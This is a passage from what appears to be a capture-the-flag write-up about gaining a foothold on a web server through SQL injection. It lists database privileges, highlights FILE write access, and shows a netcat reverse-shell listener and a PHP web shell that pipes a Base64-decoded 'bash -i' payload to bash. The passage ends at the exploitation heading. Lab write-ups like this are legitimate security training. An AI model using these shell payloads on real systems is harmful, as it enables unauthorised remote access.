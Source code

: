 ```
CREATE TEMPORARY TABLES
LOCK TABLES
EXECUTE
REPLICATION SLAVE
BINLOG MONITOR
CREATE VIEW
SHOW VIEW
CREATE ROUTINE
ALTER ROUTINE
CREATE USER
EVENT
TRIGGER
CREATE TABLESPACE
DELETE HISTORY
SET USER
FEDERATED ADMIN
CONNECTION ADMIN
READ_ONLY ADMIN
REPLICATION SLAVE ADMIN
REPLICATION MASTER ADMIN
BINLOG ADMIN
BINLOG REPLAY
SLAVE MONITOR
```

Our command returned a bunch of permissions, but one stands out from the rest:
`FILE`.

## Foothold (SQLi)

We just found out that we have the rights to read and write to files. This means
that in theory, we should be able to write our own files on the web server!

### Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

We still need to find a way to execute our payload. Luckily we know that the
website is using PHP, so it should be pretty easy to obtain one by executing our
payload as an OS command like that:

```php
<?php system('/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i') ?>
```

### Exploitation
